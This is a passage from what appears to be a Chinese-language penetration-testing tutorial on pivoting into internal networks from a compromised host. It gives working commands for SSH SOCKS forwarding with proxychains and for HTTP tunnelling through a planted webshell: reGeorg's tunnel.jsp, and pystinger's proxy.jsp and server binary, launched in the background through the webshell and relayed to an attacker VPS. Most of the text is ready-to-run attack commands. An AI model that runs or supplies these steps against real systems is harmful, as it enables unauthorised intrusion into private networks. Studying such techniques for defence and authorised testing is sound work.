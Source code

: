 2.在外网主机上执行

```javascript
ssh -f -N -D 127.0.0.1:8080 -p 2222 avfisher@127.0.0.1
(输入内网主机的SSH口令)
```

3.在外网主机上配置proxychains设置socks4代理

```javascript
$ vim /etc/proxychains.conf
[ProxyList]
socks4 127.0.0.1 8080
```

4.使用proxychains代理所有流量进入内网

```javascript
proxychains nc -nv 10.0.2.5 3306
```

###### 场景三：TCP不出网-HTTP代理

**一.reGeorg**

reGeorg原版：https://github.com/sensepost/reGeorg
reGeorg修改版：https://github.com/L-codes/Neo-reGeorg

假设拿到的Webshell是[http://aaa.com/shell.jsp，](http://aaa.com/shell.jsp，以原版reGeorg为例。)以原版reGeorg为例。

上传reGeorg中的 tunnel.jsp，假设当前URL为http://aaa.com/tunnel.jsp

在本地PC运行如下命令

~~~
python reGeorgSocksProxy.py -p 8080 -h 0.0.0.0 -u http://aaa.com/tunnel.jsp
~~~

此时，将在本地PC的8080开启一个Socks端口，使用Proxifier即可进行代理。需要注意的是，由于这个http代理隧道比较脆弱，建议根据每个目标host单独添加规则，最好不要设置成全局代理。

**二.pystinger**

蜂刺-stinger_client

[pystinger](https://github.com/FunnyWolf/pystinger)

整体结构：

1.上传 proxy.jsp到目标Web服务器，上传stinger_server/stinger_server.exe到目标系统。

2.使用Webshell启动stinger_server

~~~
Linux:
chmod +x /tmp/stinger_server
nohup /tmp/stinger_server>/dev/null nohup.out &

Windows: start D:/XXX/stinger_server.exe
~~~

3.VPS服务端启动监听

~~~
./stinger_client -w http://aaa.com/proxy.jsp -l 0.0.0.0 -p 60000
~~~

